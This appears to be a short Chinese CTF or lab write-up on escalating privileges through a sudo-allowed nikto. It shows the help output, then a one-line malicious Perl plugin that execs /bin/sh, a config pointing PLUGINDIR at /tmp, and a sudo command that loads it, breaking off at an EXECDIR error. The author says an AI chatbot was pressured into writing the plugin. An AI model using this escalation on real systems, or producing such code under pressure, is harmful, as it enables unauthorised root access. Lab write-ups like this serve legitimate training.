 帮助文档

```bash
welcome@Scanner:~$ /usr/bin/nikto -h
Option host requires an argument

       -config+            Use this config file
       -Display+           Turn on/off display outputs
       -dbcheck            check database and other key files for syntax errors
       -Format+            save file (-o) format
       -Help               Extended help information
       -host+              target host
       -id+                Host authentication to use, format is id:pass or id:pass:realm
       -list-plugins       List all available plugins
       -output+            Write output to this file
       -nossl              Disables using SSL
       -no404              Disables 404 checks
       -Plugins+           List of plugins to run (default: ALL)
       -port+              Port to use (default 80)
       -root+              Prepend root value to all requests, format is /directory
       -ssl                Force ssl mode on port
       -Tuning+            Scan tuning
       -timeout+           Timeout for requests (default 10 seconds)
       -update             Update databases and plugins from CIRT.net
       -Version            Print plugin and database versions
       -vhost+             Virtual host (for Host header)
                + requires a value

        Note: This is the short help output. Use -H for full help text.
```


拷打gpt写了一个恶意插件，启动nikto时会给出一个root shell

```plaintext
# AI
可以使用-config参数指定配置文件，其中的 PLUGINDIR 决定插件目录 ，我们放一个最小恶意插件到 /tmp，并指定加载它即可。
```

写入恶意插件

```bash
printf 'BEGIN { exec "/bin/sh"; }\n1;\n' > /tmp/pwn.plugin
```

自定义配置文件

```bash
printf 'PLUGINDIR=/tmp\n' > /tmp/nikto.conf
```

启动nikto

```bash
sudo /usr/bin/nikto -config /tmp/nikto.conf -Plugins pwn -h 127.0.0.1
```

启动时报错`Could not work out the nikto EXECDIR`，找不到执行目录，要在配置文件中指定
